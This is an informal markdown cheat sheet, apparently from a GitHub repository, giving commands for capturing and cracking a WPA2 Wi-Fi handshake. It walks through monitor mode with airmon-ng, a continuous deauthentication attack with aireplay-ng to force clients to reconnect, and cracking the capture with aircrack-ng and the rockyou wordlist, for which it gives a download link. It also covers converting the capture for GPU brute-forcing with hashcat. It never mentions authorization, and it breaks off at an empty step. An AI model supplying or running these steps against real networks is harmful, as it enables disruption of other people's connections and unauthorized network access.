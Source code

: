 ```yaml
---
title: Commands WPA2 handshake
---
```


**Kills processes:**
`sudo airmon-ng check kill`

> If you want to restart the processes run the following command:
> `sudo service NetworkManager restart`

**Starts monitor mode**
`sudo airmon-ng start wlan0`

**Verify that monitor mode is used**
`sudo airmon-ng`

**Get the AP's MAC address and channel**
`sudo airodump-ng wlan0`

1.  **window 1**
    
    1.  *Fill in the channel(after -c) and bssid(after --bssid)*
    2.  `sudo airodump-ng -w hack1 -c --bssid wlan0`
    
    > Note: "hack1 is the filename where we are going to store the captures in, you can choose the name of this file as it doesn't matter, you need to make sure that you remember it tho"
    
2.  **window 2**
    
    1.  *Fill in the bssid after '-a'*
    2.  `sudo aireplay-ng --deauth 0 -a wlan0`

**Use Wireshark to open hack file**
`wireshark hack1-01.cap`

> Note: This is the filename which we've chosen in 'window 1', as there are many captures going on (unless you live under a rock or something ;P), you will get multiple files and that's why there is a '-01' added. You could even have to look in 'hack1-03.cap' to be able to find the 4-way handshake.

**Filter Wireshark messages for EAPOL**

**Stop monitor mode**
`airmon-ng stop wlan0`

**Crack file with Rock you or another wordlist**
**Make sure you have rockyou in text format (unzip file on Kali)**
`aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt`

> Note: You can find it on any Kali distribution included at the location above, mine didn't have it tho, so I had to download it :'(
> If your were out of luck like me and don't have the wordlist, [you could download it over here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).
> **I had to use the followinf command as it was not included in my Kali distro (I downloaded my wordlist)**
> `aircrack-ng hack1-01.cap -w /root/Downloads/rockyou.txt`

**We can also try this without a wordlist, you can also use a brute force attack**

1.  Navigate to the folder where the .cap file is stored
2.  Convert the cap file to a file that is readable for 'hashcat'
3.  `/usr/share/hashcat-utils/cap2hccapx.bin hack1-01.cap wpa2.hccapx`
    ![image](https://user-images.githubusercontent.com/79259209/223355036-58df21db-cdaa-445c-9413-22a469b5bce0.png)
4.  Next I'll move my file to my Windows machine, so that I'll be able to use my GPU to brute force faster
5.  Then using cmd I'll navigate to my hashcat folder where i copied the file to

![image](https://user-images.githubusercontent.com/79259209/223355110-426af1dc-48d2-4750-bdac-d8fe89f7a1c5.png)

6\. Next, I want to check whether my GPU is available

![image](https://user-images.githubusercontent.com/79259209/223355264-b897e5a7-4927-4e24-b648-97f631d33a49.png)

7.
